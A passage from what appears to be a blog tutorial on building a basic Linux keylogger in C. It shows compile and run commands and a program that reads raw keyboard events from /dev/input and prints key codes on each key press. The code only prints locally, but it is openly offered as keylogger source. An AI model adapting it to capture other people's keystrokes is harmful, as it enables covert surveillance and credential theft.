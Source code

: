 ```
    printf("%i - %i\n",ev.code, ev.value);
  }

  return 0;
}
```

Compile this and run it.

```
## Compile

gcc basic_keylogger.c -o basic_keylogger.out

## Execute it

./basic_keylogger.out
```

This will give output something like this.

![output1](https://cdn-images-1.medium.com/max/640/1*Y-Z4wh_4BDSNLf6v1_NF8Q.png)

I am not sure about what this all is. But I saw some pattern and decided to learn more on this later. The pattern here is, whenever `ev.value` is `1` then I am getting a `ev.code` unique for each key. So I decided to just filter out the data with `ev.value == 1`.

CODE - `basic_keylogger.c` (minor modification)

```
#include <errno.h>
#include <fcntl.h>
#include <linux/input.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void) {
  errno = 0;
  struct input_event ev;
  //This is the keyboard event file
  char* kbd_path = "/dev/input/by-path/platform-i8042-serio-0-event-kbd";
  int fd = open(kbd_path, O_RDONLY);
  if(fd == -1)
  {
    printf("Error %d\n", errno);
    exit(EXIT_FAILURE);
  }

  while (1)
  {
    read(fd, &ev, sizeof(struct input_event)); //read from keyboard
    if(ev.value == 1)
    {
      printf("%i - %i\n",ev.code, ev.value);
    }
  }

  return 0;
}
```
